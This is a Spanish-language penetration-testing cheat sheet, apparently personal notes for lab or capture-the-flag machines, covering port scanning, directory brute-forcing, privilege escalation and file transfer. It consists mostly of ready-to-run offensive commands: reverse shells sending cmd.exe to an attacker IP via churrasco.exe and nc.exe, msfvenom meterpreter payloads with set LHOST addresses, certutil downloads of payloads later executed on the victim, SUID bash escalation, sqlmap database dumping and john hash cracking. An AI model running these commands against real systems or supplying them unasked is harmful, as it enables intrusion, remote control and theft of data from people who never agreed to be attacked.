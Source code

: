 **identificar puertos abeirtos**

nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn <ip victima>  -oG allPorts  //se guarda en formato grepeable para poder extraer los puertos con extractports
// -sS escaneo sigiloso 
// -p- escanea todos los puertos --open 
// -min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo
//  -n No realiza resolución DNS
// -vvv Muestra resultados muy detallados 
// -Pn Desactiva la detección de hosts




**identificar versiones de los puertos abiertos**

nmap -sV -sC -p<puertos separados por ,> -n -v -Pn <ip victima> -oA scan
// -sV deteccion de versiones
// -sC ejecuta scripts por defecto
// -n No realiza resolución DNS
// -v muestra resultados detallados
// -Pn Desactiva la detección de hosts


##### scripts con nmap ######
nmap --script "vuln and safe" -p<puerto> <ip victima>


####### gobuster ########
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
// dir para directorio
//-u para la url
// -w para pasarle el diccionario
// -x para agregar .txt a todos los datos del diccionario
// -t para los hilos
// | grep -v "301" para no mostrar los status


####### colocarse en escucha ########
nc -lvnp <puerto>


####### abrir un servidor para transferir archivos ############
python3 -m http.server <puerto>


####### escalacion de privilegios en Windows (Windows-Exploit-Suggester) ###############
//revissar version   systeminfo
// en el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d (archivo descargado) -i systeminfo.txt

// privilegios whoami /priv
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) (https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)
pasar el archivo nc.exe a windows
reverseshell: churrasco.exe "\\<ip atacante>\recurso\nc.exe <ip atacante> <puerto> -e cmd.exe"

printspoofer

saber permisos icacls (directorio archivo)
otorgar permisos icacls "ruta\al\archivo" /grant NombreDeUsuario:F



######## transferir archivos de linux a windows ###########
//en linux abrir un servidor
en windows: certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
OR
Linux: impacket-smbserver recurso $(pwd) -smb2support
windows: copy \\<ip atacante>\recurso\archivo.extension archivo.extension


######## transferir archivos de linux a linux ##########
//abrir servidor
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension


######## escalar privilegios en linux ########
permisos sudo: sudo -l
permisos suid: find / -type f -perm -4000 -ls 2>/dev/null
linux versiones anteriores searchsploit dirty cow
listar tareas predefinidas : cat /etc/crontab


#####obtener texto de la web #########
curl -s -X GET "url"


#### de hexadecimal a normal ####
| xxd -ps -r; echo

##### de base 64 a normal #####
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d


#### convertir protegido por contraseña a hash ####
ssh2jhon.py 


####decifrar hash #####
hashid hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256


######## reverseshell msfvenom ########
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx


######## ejecutar archivo para reverse shell #######
#!/bin/bash
chmod u+s /bin/bash


######### bash privilegiada ########
bash -p

######## mejorar bash ######## 
>script /dev/null -c bash
crtl + z
>stty raw -echo; fg
>reset xterm
>export TERM=xterm
stty size //en la terminal del atacante para saber el tamaño
stty rows <rows> columns <columns> //en la terminal de la victima para ajustar el tamaño

########## listar puertos ############
netstat -na -p tcp

########## vncviewer #########
local: 
sudo nano /etc/proxychains4.conf
socks4 127.0.0.1 1080
ssh user@host -D 1080
sudo proxychains vncviewer <parametros> (localhost)

########### dominio puerto 53 ########
nslookup
server ip
ip
(dig para saber subdominios)


########## exploit magento ############
froghopper attack


############ shell meterpreter con msfvenom y metasploit ##############
consola: msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.87.166 LPORT=1234 -f exe -o shell.exe
or
consola: msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.87.166 LPORT=1234 -f exe -o shell.exe

consola abre servidor: python3 -m http.server 8000
en el windows victima: certutil -urlcache -f http://ip_servidor:puerto_servidor/archivo archivo

msfconsole: use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
options
exploit

maquina victima: shell.exe


################## sqlmap ##################
sqlmap -r request.txt --dbms=mysql --dump



########  windows informacion de servicios que estan corriendo ###########
sc queryex | find /i "SERVICE_NAME:"
binarios corriendo
ps


################## listar smb #############
smbclient -L ip            ver recursos compartidos
smbclient  //ip/recurso
get archivo        descargar archivo
put archiv         subir archivo 
